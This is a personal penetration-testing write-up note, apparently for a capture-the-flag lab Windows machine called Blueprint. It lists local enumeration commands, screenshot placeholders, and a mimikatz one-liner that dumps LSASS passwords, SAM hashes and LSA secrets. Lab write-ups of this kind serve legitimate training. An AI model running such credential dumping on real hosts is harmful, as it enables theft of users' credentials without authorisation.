 ```yaml
---
Topics:
  - "[[01 - Pentesting]]"
  - "[[01 - Red Team]]"
Types:
  - "[[02 - Write Ups]]"
tags:
  - writeup
date created: Thursday, July 18th 2024
date modified: Friday, July 19th 2024
---
```


# Blueprint Internal

## Objective

___

```ad-info
title:Objective 

- This note is used to keep track of the target Windows machine's discovery, privilege escalation, persistence and credential access processes
- This note also contains different cheatsheets and resources to aid in those methodologies
- Feel free to remove any sections that are non-applicable to keep this note compact.
```

___

## Internal Discovery Notes

> Run the commands yourself or let the script do it for you. Either way paste relevant screenshots here for future reference.

```ad-note
title: Situational Awareness Notes

*Current User Information*
~~~powershell
whoami /all
~~~
*Screenshot*
___
![[Pasted image 20240719010736.png]]
___
*Local Users*
~~~powershell
net user
~~~
*Screenshot*
___
![[Pasted image 20240719010755.png]]
___
*Local Groups*
~~~powershell
net localgroup
~~~
**Note**: Not working
*Screenshot*
___
![[Pasted image 20240719010840.png]]
___
*Current System*
~~~powershell
systeminfo
~~~
*Screenshot*
___
![[Pasted image 20240719010919.png]]
___
*Network Configuration*
~~~powershell
ipconfig
~~~
*NO NEW SUBNETS*
*Screenshot*
___
![[Pasted image 20240719011011.png]]
___
*Check Installed Software*
~~~powershell
get-childitem 'C:\Program Files\' | Select-Object Name | Format-Table
~~~

~~~powershell
dir "C:\Program Files\"
~~~
*Screenshot*
___
![[Pasted image 20240719011111.png]]
___
*Check Installed Software x86*
~~~powershell
get-childitem 'C:\Program Files (x86)\' | Select-Object Name | Format-Table
~~~
REDUNDANT COMMAND, THIS MACHINE IS x86 ONLY
*Screenshot*
___
![[Pasted image 20240719011226.png]]
___
*Root of C:/ Drive Contents*
~~~powershell
get-childitem 'C:\' | Select-Object Name | Format-Table
~~~
**Inetpub and XAMPP found.**
> Check non-default folders such as "Setup" or "Inetpub" for credentials.
*Screenshot*
___
![[Pasted image 20240719011257.png]]
___
```

## Credential Access (OS Credential Dumping)

> If you have obtained privileged access to the host, take a moment to dump credentials from LSASS using mimikatz.

~~~ad-note
title: Mimikatz LSASS Dump

*Mimikatz One-Liner*

```powershell
mimikatz.exe "privilege::debug" "log HOSTNAME.txt" "sekurlsa::logonpasswords" "sekurlsa::ekeys" "token::elevate" "lsadump::sam" "lsadump::secrets"
```

![[Pasted image 20240719013912.png]]
~~~

**Hashes** (Lab user):

![[Pasted image 20240719013832.png]]

**Flags** (Admin desktop):

![[Pasted image 20240719013351.png]]
